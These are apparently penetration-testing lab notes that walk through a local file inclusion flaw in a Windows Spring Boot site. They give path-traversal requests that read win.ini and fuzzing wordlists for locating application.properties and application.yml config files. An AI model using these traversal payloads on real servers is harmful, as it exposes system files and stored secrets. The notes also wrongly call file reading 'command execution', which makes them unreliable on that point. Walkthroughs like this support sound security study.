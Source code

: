 ##### Local File Inclusion (LFI)

###### Asio (WINDOWS)
when browsing to `/specials` we get the same error
![[Pasted image 20250102165644.png]]
but when we look in `burpsuite` we are able to see `winter.html` being referenced - possibly for the menu, lets try seeing other files
![[Pasted image 20250102165738.png]]
testing for `LFI` we come up with looking for the `/etc/passwd` equivalent which is the `window/win.ini` file by utilizing this request
```http
GET /specials?menu=../../../../../../../../../../windows/win.ini HTTP/1.1
```
the burp request shows that we have command execution
![[Pasted image 20250102173514.png]]
now because we know that it is a `SPRING BOOT` server lets do research to file potential file paths

got a potential `/config` path
![[Pasted image 20250102173626.png]]
with ome file names
![[Pasted image 20250102173703.png]]
testing
```http
../../../../../../../../../../config/application.properties
../../../../../../../../../../config/application.yml
```
because we dont know how far back from the working directory that the `config` file is we're going to have to `FUZZ` do to them not being found
![[Pasted image 20250102174111.png]]


 Fuzzing
going to make `paths.txt` and `files.txt`

`paths.txt`
```bash
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
../../../../../../../../../
../../../../../../../../../../
../../../../../../../../../../../
```

`files.txt`
- found config files by googling `Spring Boot server config`
```bash
application.properties
application.yml
config/application.properties
config/application.yml
```

